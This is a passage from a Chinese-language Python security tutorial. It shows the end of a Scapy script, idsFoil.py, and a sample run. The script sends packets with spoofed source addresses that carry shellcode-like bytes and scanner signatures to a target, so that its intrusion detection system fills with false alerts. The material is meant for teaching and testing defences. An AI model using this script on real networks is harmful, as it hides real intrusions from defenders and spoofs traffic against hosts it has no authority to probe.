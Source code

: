 ```py
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src, dst=dst) / UDP(dport=635) /Raw(load="^\xB0\x02\x89\x06\xFE\xC8\x89F\x04\xB0\x06\x89F")
    send(pkt, iface=iface, count=count)

def scanTest(src, dst, iface, count):
    pkt = IP(src=src, dst=dst) / UDP(dport=7) /Raw(load='cybercop')
    send(pkt)
    pkt = IP(src=src, dst=dst) / UDP(dport=10080) /Raw(load='Amanda')
    send(pkt, iface=iface, count=count)

def main():
    parser = optparse.OptionParser('usage%prog -i<iface> -s <src> -t <target> -c <count>')
    parser.add_option('-i', dest='iface', type='string', help='specify network interface')
    parser.add_option('-s', dest='src', type='string', help='specify source address')
    parser.add_option('-t', dest='tgt', type='string', help='specify target address')
    parser.add_option('-c', dest='count', type='int', help='specify packet count')
    (options, args) = parser.parse_args()
    if options.iface == None:
        iface = 'eth0'
    else:
        iface = options.iface
    if options.src == None:
        src = '.'.join([str(randint(1,254)) for x in range(4)])
    else:
        src = options.src
    if options.tgt == None:
        print(parser.usage)
        exit(0)
    else:
        dst = options.tgt
    if options.count == None:
        count = 1
    else:
        count = options.count
    ddosTest(src, dst, iface, count)
    exploitTest(src, dst, iface, count)
    scanTest(src, dst, iface, count)

if __name__ == '__main__':
    main() 
```

执行我们最终的脚本，我们可以看到它正确的发送了八个数据包到目标地址，欺骗源地址为`1.3.3.7`。为了测试目的，确保目标主机和攻击者的机器不同。

```py
attacker# python idsFoil.py -i eth0 -s 1.3.3.7 -t 192.168.1.106 -c 1
Sent 1 packets.
Sent 1 packets.
Sent 1 packets.
Sent 1 packets.
Sent 1 packets.
Sent 1 packets.
Sent 1 packets.
Sent 1 packets. 
```

